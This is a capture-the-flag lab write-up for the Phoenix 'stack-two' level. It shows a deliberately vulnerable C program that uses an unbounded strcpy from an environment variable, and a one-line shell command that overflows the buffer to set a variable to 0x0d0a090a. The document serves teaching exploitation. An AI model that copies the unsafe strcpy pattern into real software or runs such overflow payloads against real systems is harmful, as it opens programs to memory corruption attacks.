 ## Stack Two
Stack Two takes a look at environment variables, and how they can be set.

## Source Code
```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

## Challenge
The aim is to change the contents of the `changeme` variable to `0x0d0a090a`.

## Solution
Same as `stack-one`, only this time our input is passed as an environment variable.

### The Plan
Set the environment variable `ExploitEducation` to a string overflowing `locals.buffer` and writing the `little-endian` representation of `0x0d0a090a` to `locals.changeme`.

### Breaking it
```console
user@phoenix-amd64:~$ ExploitEducation=$(python -c "print 'a'*64+'\x0a\x09\x0a\x0d'") /opt/phoenix/amd64/stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
🥳
